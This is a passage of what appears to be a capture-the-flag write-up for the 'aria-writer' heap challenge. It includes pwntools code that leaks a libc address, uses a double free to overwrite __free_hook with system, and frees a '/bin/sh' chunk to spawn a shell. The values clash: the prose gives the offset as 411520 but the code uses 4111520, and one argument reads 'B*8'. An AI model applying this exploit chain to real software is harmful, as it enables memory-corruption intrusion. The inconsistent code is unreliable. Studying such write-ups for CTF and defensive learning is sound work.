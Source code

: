![](/assets/screens/aria-writer/print_secret_name.png)

The highlighted text is an address in libc it is easy to find the offset from libc base, just run the code with pwndbg, use the vmmap command to get the currrent libc base address and substract that value from the leaked address. In this case the offset is 411520. We can now leak libc using the following code snippet:

```py
secret_name()
io.recvuntil('secret name o: :')
io.read(16)
leak = u64(io.read(8))
libc_addr = leak - 4111520
libc.address = libc_addr

log.success('libc @ %#x' % libc.address)

io.interactive()
```

### Getting code execution

From here it is easy to gain code execution. We use the same double free trick (with a different size) to overwrite __free_hook with the address of system. Since the free hook is called with the same arguments as free we can just malloc a chunk with the string /bin/sh and call free again. Adding the following lines of code we have a working exploit:

```py
malloc(0x68, 'A')
free()
free()

malloc(0x68, flat(libc.symbols['__free_hook']))
malloc(0x68, 'B*8')
malloc(0x68, flat(libc.symbols['system']))

malloc(0x58, '/bin/sh\x00')
free()

io.interactive()
```
